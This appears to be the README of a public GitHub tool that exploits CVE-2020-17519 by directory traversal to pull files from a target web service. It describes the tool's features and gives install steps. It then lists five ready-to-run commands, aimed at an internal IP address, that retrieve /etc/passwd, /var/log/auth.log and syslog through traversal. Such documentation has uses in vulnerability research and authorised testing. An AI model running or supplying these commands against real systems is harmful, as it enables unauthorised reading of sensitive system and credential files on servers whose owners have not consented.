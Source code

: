 # CVE-2020-17519

## Log Traversal Tool

A Python tool that uses a directory traversal technique to request log files from a target URL. It displays real-time progress, supports proxy configuration, and optionally saves valid responses.

---

### Features

- **Directory Traversal with Configurable Depth**  
  Uses a configurable depth for directory traversal.
- **Single File or Multiple File Paths**  
  Supports requesting a single file path or multiple paths from a file.
- **Multi-threading Support**  
  Executes requests concurrently using multiple threads.
- **Proxy Support**  
  Allows configuration of a proxy for the requests.
- **Save Valid Responses**  
  Saves valid responses into individual files.
- **Real-time Progress Display**  
  Shows progress in real time using pwntools.

---

### Requirements

- Python 3.6 or above
- Python packages: `requests` and `pwntools` (`pwn`)
- Standard libraries: `argparse`, `os`, `concurrent.futures`, `threading`

---

### Installation

1. **Clone the repository**  
   ```bash
   git clone https://github.com/GazettEl/CVE-2020-17519.git
   pip install requests pwntools
   ```

### Usage
The tool can be executed from the command line with various options. Below are some examples:

Example 1: Request a Single File Path
```bash
python CVE-2020-17519.py --target http://10.10.110.78:8081/ --depth 12 --file-path /var/log/syslog --threads 1 --save
```
Example 2: Request Multiple File Paths from a List
```bash
python CVE-2020-17519.py --target http://10.10.110.78:8081/ --depth 12 --file-list file_paths.txt --threads 4 --proxy none
```
Example 3: Run with Proxy Disabled
```bash
python CVE-2020-17519.py --target http://10.10.110.78:8081/ --depth 10 --file-path /var/log/auth.log --threads 2 --proxy none
```
Example 4: Use a File List and Save Valid Responses
```bash
python CVE-2020-17519.py --target http://10.10.110.78:8081/ --depth 15 --file-list paths.txt --threads 4 --save
```
Example 5: Request a Single File with Increased Depth
```bash
python CVE-2020-17519.py --target http://10.10.110.78:8081/ --depth 20 --file-path /etc/passwd --threads 1
```
For more details, refer to the source code and inline comments.